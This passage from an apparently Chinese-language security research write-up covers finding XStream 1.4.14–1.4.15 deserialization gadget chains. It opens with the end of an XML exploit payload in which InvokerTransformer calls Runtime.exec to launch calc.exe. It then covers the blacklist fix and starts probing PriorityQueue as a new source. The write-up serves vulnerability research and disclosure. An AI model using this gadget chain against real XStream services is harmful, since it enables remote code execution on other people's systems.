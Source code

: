 ```xml
                                                    <unserializable-parents/>
                                                    <java.util.ArrayDeque>
                                                        <default/>
                                                        <int>0</int>
                                                    </java.util.ArrayDeque>
                                                </stack>
                                                <root class="java.lang.Runtime">

                                                </root>
                                                <transformer class="org.apache.commons.collections4.functors.InvokerTransformer">
                                                    <iMethodName>exec</iMethodName>
                                                    <iParamTypes>
                                                        <java-class>java.lang.String</java-class>
                                                    </iParamTypes>
                                                    <iArgs>
                                                        <string>calc.exe</string>
                                                    </iArgs>
                                                </transformer>
                                            </it>
                                        </msg>
                                    </part>
                                </dataHead>
                            </mimePart>
                        </part>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

#### 修复

将FileStream与NativeString加入了黑名单。

![image-20210119115303034](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119115303034.png)

### XStream 1.4.15

#### 新的source寻找

在1.4.15已经将NativeString加入了黑名单。但是MapConverter的处理逻辑没变，还是可以将Object.hashcode作为source入口。找遍了jdk中所有的Object.hashcode函数也没找到可用的一个source。这时候联想了一下以前分析过常见的几条jdk反序列化链，试着反序列化一下优先队列是什么情况？

构造一个优先队列，用XStream反序列化之后，输出xml。

```java
        Queue<String> q = new PriorityQueue<>();
        q.offer("apple");
        XStream xStream = new XStream();
        System.out.println(xStream.toXML(q));
```
